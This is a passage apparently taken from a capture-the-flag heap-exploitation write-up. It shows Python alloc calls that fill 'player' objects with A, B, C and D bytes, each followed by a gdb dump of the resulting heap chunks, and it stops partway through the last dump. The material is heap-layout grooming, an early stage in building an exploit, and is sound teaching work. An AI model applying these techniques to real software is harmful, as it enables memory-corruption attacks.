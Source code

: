 ```python

    alloc('A'*0x60)

```

```
(gdb) x/80gx 0x604000
      0x604000:	0x0000000000000000	0x0000000000000021 <-- player 0 
      0x604010:	0x0000000200000001	0x0000000400000003
      0x604020:	0x0000000000604030	0x0000000000000071
      0x604030:	0x4141414141414141	0x4141414141414141
      0x604040:	0x4141414141414141	0x4141414141414141
      0x604050:	0x4141414141414141	0x4141414141414141
      0x604060:	0x4141414141414141	0x4141414141414141
      0x604070:	0x4141414141414141	0x4141414141414141
      0x604080:	0x4141414141414141	0x4141414141414141
      0x604090:	0x0000000000000000	0x0000000000020f71
``` 

```python
alloc('B'*0x60)
```

```
(gdb) x/80gx 0x604000
0x604000:	0x0000000000000000	0x0000000000000021  <-- player 0
0x604010:	0x0000000200000001	0x0000000400000003
0x604020:	0x0000000000604030	0x0000000000000071
0x604030:	0x4141414141414141	0x4141414141414141
0x604040:	0x4141414141414141	0x4141414141414141
0x604050:	0x4141414141414141	0x4141414141414141
0x604060:	0x4141414141414141	0x4141414141414141
0x604070:	0x4141414141414141	0x4141414141414141
0x604080:	0x4141414141414141	0x4141414141414141
0x604090:	0x0000000000000000	0x0000000000000021 <-- player 1
0x6040a0:	0x0000000200000001	0x0000000400000003
0x6040b0:	0x00000000006040c0	0x0000000000000071
0x6040c0:	0x4242424242424242	0x4242424242424242
0x6040d0:	0x4242424242424242	0x4242424242424242
0x6040e0:	0x4242424242424242	0x4242424242424242
0x6040f0:	0x4242424242424242	0x4242424242424242
0x604100:	0x4242424242424242	0x4242424242424242
0x604110:	0x4242424242424242	0x4242424242424242
0x604120:	0x0000000000000000	0x0000000000020ee1 
```


```python
alloc('C'*0x80)
alloc('D'*0x80)
```

```
(gdb) x/90gx 0x604000
0x604000:	0x0000000000000000	0x0000000000000021 <-- player 0
0x604010:	0x0000000200000001	0x0000000400000003
0x604020:	0x0000000000604030	0x0000000000000071
0x604030:	0x4141414141414141	0x4141414141414141
0x604040:	0x4141414141414141	0x4141414141414141
0x604050:	0x4141414141414141	0x4141414141414141
0x604060:	0x4141414141414141	0x4141414141414141
0x604070:	0x4141414141414141	0x4141414141414141
0x604080:	0x4141414141414141	0x4141414141414141
0x604090:	0x0000000000000000	0x0000000000000021 <-- player 1
0x6040a0:	0x0000000200000001	0x0000000400000003
0x6040b0:	0x00000000006040c0	0x0000000000000071
0x6040c0:	0x4242424242424242	0x4242424242424242
```